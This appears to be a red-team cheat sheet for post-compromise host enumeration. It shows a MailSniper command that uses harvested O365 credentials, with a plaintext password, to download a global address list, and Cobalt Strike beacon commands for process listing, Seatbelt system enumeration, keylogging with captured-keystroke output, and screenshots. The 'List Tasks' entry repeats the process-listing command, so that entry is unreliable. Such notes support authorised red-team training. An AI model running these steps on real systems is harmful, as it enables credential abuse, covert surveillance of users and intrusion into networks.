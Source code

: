 

## Post Compromise - Host Enumeration

### Harvested O365 Credentials

#### Download Global Address List

Download global email address list with MailSniper.

* ```powershell
  PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.rotta.dev 
  -UserName rotta.dev\cassy -Password FoxyLady123! -OutFile .\Desktop\gal.txt
  ```

### Host Recon - Cobalt Strike

#### List Processes

* ```powershell
  beacon> ps
  ```

#### List Tasks

* ```powershell
  beacon> ps
  ```

#### Seatbelt

* ```powershell
  beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt.exe -group=system
  ```

#### Keylogger

* ```powershell
  beacon> keylogger
  [+] received keystrokes from *Untitled - Notepad by nancy

  beacon> jobs
  [*] Jobs

   JID  PID   Description
   ---  ---   -----------
   1    0     keystroke logger

  beacon> jobkill 1
  ```

#### Screenshots

* ```powershell
  printscreen               Take a single screenshot via PrintScr method
  screenshot                Take a single screenshot
  screenwatch               Take periodic screenshots of desktop
  ```
